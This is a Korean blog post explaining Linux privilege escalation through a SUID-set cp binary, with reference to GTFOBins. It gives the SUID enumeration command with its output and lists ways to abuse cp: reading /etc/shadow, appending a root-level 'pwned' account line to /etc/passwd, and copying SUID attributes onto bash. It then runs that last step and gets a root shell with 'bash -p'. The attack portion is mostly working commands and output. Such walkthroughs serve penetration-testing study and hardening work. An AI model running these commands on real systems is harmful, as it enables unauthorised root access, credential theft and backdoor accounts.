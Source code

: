 ```yaml
---
layout: post
title: SUID를 이용한 권한 상승
subtitle: cp 명령어를 사용해 권한 상승 하기
category: knowledge
thumbnail-img: /assets/img/avatar-icon.png
tags: [SUID, cp, gtfobins]
author: Hong
---
```

SUID의 권한을 가진 파일들 중 cp가 있는 경우, 이를 이용하여 권한 상승하는 방법에 대한 포스팅.

# SUID의 탐색
일반 유저의 쉘을 획득하는데 성공했다면 권한 상승을 위해 SUID를 탐색해본다.
<pre>
$ find / -perm -u=s -type f 2>/dev/null
/snap/snapd/16292/usr/lib/snapd/snap-confine
/snap/core20/1623/usr/bin/chfn
/snap/core20/1623/usr/bin/chsh
/snap/core20/1623/usr/bin/gpasswd
/snap/core20/1623/usr/bin/mount
/snap/core20/1623/usr/bin/newgrp
/snap/core20/1623/usr/bin/passwd
/snap/core20/1623/usr/bin/su
/snap/core20/1623/usr/bin/sudo
/snap/core20/1623/usr/bin/umount
/snap/core20/1623/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core20/1623/usr/lib/openssh/ssh-keysign
/snap/core18/2560/bin/mount
/snap/core18/2560/bin/ping
/snap/core18/2560/bin/su
/snap/core18/2560/bin/umount
/snap/core18/2560/usr/bin/chfn
/snap/core18/2560/usr/bin/chsh
/snap/core18/2560/usr/bin/gpasswd
/snap/core18/2560/usr/bin/newgrp
/snap/core18/2560/usr/bin/passwd
/snap/core18/2560/usr/bin/sudo
/snap/core18/2560/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core18/2560/usr/lib/openssh/ssh-keysign
/usr/bin/chfn
/usr/bin/umount
/usr/bin/gpasswd
/usr/bin/mount
/usr/bin/su
/usr/bin/fusermount3
/usr/bin/passwd
<b>/usr/bin/cp</b>
/usr/bin/chsh
/usr/bin/newgrp
/usr/bin/pkexec
/usr/bin/sudo
/usr/libexec/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
</pre>
항상 보던것들 사이로 익숙하지 않은 명령어가 보인다.

cp가 SUID로 설정되어있다! 바로 사용해보자.
# GTFObins
참고하기 위한 페이지로 [GTFObins의 SUID 부분](https://gtfobins.github.io/gtfobins/cp/#suid)을 확인한다.

여기에 따르면 cp로 할 수 있는 몇가지 강력한 기능들이 있는데 무슨 파일이든 cp를 사용하여 읽고 쓸 수 있는 것과 파일에 cp와 똑같은 권한을 부여하는 것이다.

경우를 나누어서 활용 방안을 생각해보자.

1. cp를 사용해서 /etc/shadow 파일이나 cron같은 민감한 파일들의 내용을 확인한다.
2. cp를 사용해서 /etc/passwd 파일을 수정한다. `openssl passwd <비밀번호>`로 해쉬를 만든후 파일에 추가해서 root권한의 유저를 생성할 수 있다. `pwned:비밀번호해쉬:0:0:root:/root:/bin/bash`
3. 실행 파일에 SUID 권한을 부여해서 루트 권한으로 실행한다.

모든 경우가 치명적이지만 설정에 따라서 가능한 경우도 불가능한 경우도 있다.

이 포스팅에서는 3번을 예시로 알아보겠다.

```sh
$ whoami
nobunaga
```
현재는 nobunaga라는 유저로 되어있는 상태.

여기서 cp를 이용해 bash나 sh쉘도 SUID로 만들어준다. 

변경 전.
```bash
$ ls -la /usr/bin/bash
-rwxr-xr-x 1 root root 1396520 Jan  6  2022 /usr/bin/bash
```

변경 후. bash쉘을 사용중이면 잘 안될 수 있으니 파이썬으로 bash 쉘 소환중이라면 일단 꺼야 함.
```sh
$ /usr/bin/cp --attributes-only --preserve=all /usr/bin/cp /usr/bin/bash
$ ls -la /usr/bin/bash
-rwsr-xr-x 1 root root 1396520 Feb  7  2022 /usr/bin/bash
```
위와 같이 bash쉘도 SUID가 된 것을 확인 할 수 있다.

bash쉘의 커맨드를 이용하여 소유자 권한으로 실행한다.
```bash
$ bash -p
whoami
root
```
이렇게 해서 SUID를 이용해 권한 상승을 하는 방법을 알아보았다.

SUID 리스트에 cp가 있다면 활용해보자.